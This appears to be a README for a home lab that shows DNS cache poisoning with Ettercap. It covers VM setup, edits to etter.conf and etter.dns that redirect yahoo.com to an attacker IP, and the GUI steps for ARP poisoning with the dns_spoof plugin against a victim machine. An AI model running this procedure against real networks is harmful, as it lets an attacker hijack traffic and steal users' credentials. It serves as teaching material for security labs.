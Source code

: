 # dns-cache-poisoning

DNS cache poisoning is a vulnerability used by the attackers to replace the DNS response with forged DNS response that direct the request to attacker’s website. Usually this is used for pharming user are unknowing made to download malicious code or provide credentials which is then an accessed by attackers. The DNS server doesn’t verify the cache. Therefore, the forged response remains in the DNS until the TTL is expired. The DNS cache poisoning will not affect the real site corresponding to the IP address but the response from that DNS will lead user to rogue website


## REQUIREMENTS

1. virtual box
2. Two virtual machines 

      . we are using kali machine for attacking and windows machine as victim
      
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads to download and install according to the operating system
        
              
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
     
      follows instruction in the site to install kali machine on virtual box
      https://itsfoss.com/install-kali-linux-virtualbox/
      
      
      
3. Download and install windows 10 machine on virtual box

      follow instructions provided in the link to download and set up windows 10 machine on virtual box

      https://www.groovypost.com/howto/windows-10-install-virtualbox/
                    
                    
                    
4. Installing ettercap on kali

     use below command to install Ettercap application
     
        sudo apt-get install ettercap
       
       
       
5. installing apache server

     use following command to install apache server on kali
        
        sudo apt-get install apache2
         
         
         
6. install Iptable

     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
       
       
# Getting Ready


### Configuring
      
##### Network settings


   Go to Network settings on both the machines and set the adapter to bridged adapter to get the two machines on same network with internet access
                 
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.


        leafpad /etc/ettercap/etter.conf
        

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean



Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"



##### Edit Ettercap.dns file


  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file


        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
        
        
##### Run ettercap application


   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner


 22. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
        
        
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
        
        
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"


 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"


 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
        
        
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessing the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning
